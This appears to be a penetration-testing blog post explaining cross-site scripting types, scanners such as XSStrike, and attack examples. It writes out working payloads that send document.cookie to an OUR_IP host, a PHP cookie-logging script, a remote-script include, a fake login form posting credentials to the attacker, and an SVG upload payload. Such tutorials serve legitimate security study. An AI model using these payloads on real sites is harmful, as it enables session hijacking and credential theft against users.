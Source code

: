 ```yaml
---
layout: post
title: "XSS Overview"
---
```


Check XSS CheatSheet for more (comming soon)

------------

# Overview

![XSS](/docs/assets/img/XSS-Overview/XSS.PNG)

What about [same-origin policy](https://portswigger.net/web-security/cors/same-origin-policy) (SOP), huh?

But what if there was a way around that?

Having access to JavaScript on another website in a context of different user can be quite problematic. So... Is there a way to inject code into another website?

That is where today`s topic comes in. 

Cross-Site Scripting (XSS) attacks are a type of injection vulnerabilities that take advantage of a flaw in user input sanitization to inject malicious code into the page and execute it on the client side, leading to several types of attacks.

# Types

There are three main types of XSS vulnerabilities:

* Reflected (Non-Persistent) XSS occurs when user input is immediately returned to the page after being processed by the backend server (e.g., search result or error message), without permanently storing the user provided data.

![Reflected1](/docs/assets/img/XSS-Overview/Reflected1.PNG) ![Reflected2](/docs/assets/img/XSS-Overview/Reflected2.PNG)


* Stored (Persistent) XSS is the most critical type of XSS. It occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments).

![Stored](/docs/assets/img/XSS-Overview/Stored.PNG)

* DOM-based XSS, last another Non-Persistent XSS type that occurs when JavaScript is used to change the page source through the Document Object Model (DOM) - user input is completely processed on the client-side, without reaching the back-end server and is shown in the browser (e.g., through client-side HTTP parameters or anchor tags).

# XSS Discovery

## Automated Discovery

Almost all Web Application Vulnerability Scanners (like [Nessus](https://www.tenable.com/products/nessus), [ZAP](https://www.zaproxy.org/), and much more) are capable of detecting all above mentioned types of XSS vulnerabilities. Usually by sending various payloads in an attempt to trigger Reflected or Stored XSS or by review of client=side code for potential DOM-based vulnerabilities.

For targeted XSS discovery there are many open-source tools, my favourite, [XSStrike](https://github.com/s0md3v/XSStrike), and others like [XSS-Scanner](https://github.com/MariaGarber/XSS-Scanner), or [XSSer](https://github.com/epsylon/xsser) 

```powershell
python xsstrike.py -u "http://VICTIM_IP:PORT/index.php?task=test" 
```

Keep in mind that none of the mentioned tools are foolproof and all discoveries needs to be verified.

## Manual Discovery

While I usually prefer manual exploitation there are exceptions, and XSS is one of them.
Manual discovery of XSS vulnerabilities is not hard but it is just plainly inefficient as it means manually testing various XSS payloads against an input field in a given web page.
There are enormous lists of XSS payloads, like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) and automated tools just faster than you.

While basic XSS vulnerabilities can usually be found by testing various payloads, i.e. Automated discovery tools, in reality there will rarely be anything to find. Developers most likely ran some vulnerability scan before publishing and caught all the low hanging fruit.

Where manual discovery comes in is Code Review.
If we know exactly how user input is handled we can create custom payload that will do what we need it to.

# Attack examples

## Blind XSS

Normally we try to discover if and where an XSS vulnerability exists. But what if we can not easily see the result of out injection?

A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Therefore, they are much more difficult to detect than other types of XSS flaws.
Simple web vulnerability scanners that only analyze direct responses from the application are unable to detect them.

It usually occurs with forms only accessible by certain users (Admins).

* Contact Forms
* User Details
* Support Tickets
....and more

To detect them, we can use a JavaScript payload that sends an HTTP request back to our server.

```powershell
sudo php -S 0.0.0.0:80
```

If the code gets executed, we will get a response on listener running on our machine, and we will know that the page is vulnerable.

### Remote Scripts

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL.

```html
<script src="http://OUR_IP/script.js"></script>
```

We can use this to execute a remote JavaScript file.

If we have multiple input fields we can change the requested script name from script.js to the name of the input field (e.g. `username.js`) so we can identify the vulnerable input field that executed the script.

With that, we can start testing different XSS payloads that load a remote script and see which of them sends us a request.


## Session Hijacking
 
How would you feel if someone stole your cookie?

This attack aims to grab the session cookie and send it to us so we could log in as, hopefully, administrator.

It requires a payload to send us the required data and a PHP script hosted on our machine to grab transmitted data.

```php
<?php
if(!empty($_GET['cookie'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['cookie']);
    fclose($logfile);
}
?>
```

There are multiple JavaScript payloads we can use to grab the session cookie, few examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md):

```JavaScript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Put selected payload into `payload.js` and host in on your machine to be used as Remote Script.

```html
<script src=http://OUR_IP/payload.js></script>
```

Once our XSS payload is triggered, we will receive two requests, one for payload.js, and another request with the cookie value.

We can use this cookie on the login page to access the victim's account.

## Phishing and Credential Theft

In a phishing XSS attack, you create fake login forms and steal credentials.

```html
<h1>Please login to continue</h1>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Payload:
```JavaScript
<script>
document.write('<h1>Please login to continue</h1><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
</script>
```

The malicious code is embedded in a link that is sent to the victim.
When the victim clicks on the link, they will see our fake login form.

So be careful, especially with shortened urls, like [TinyURL](https://tinyurl.com/) and others.

## File Upload

Stored XSS via File upload

```html
<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <circle cx='100' cy='100' r='100' />
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```

~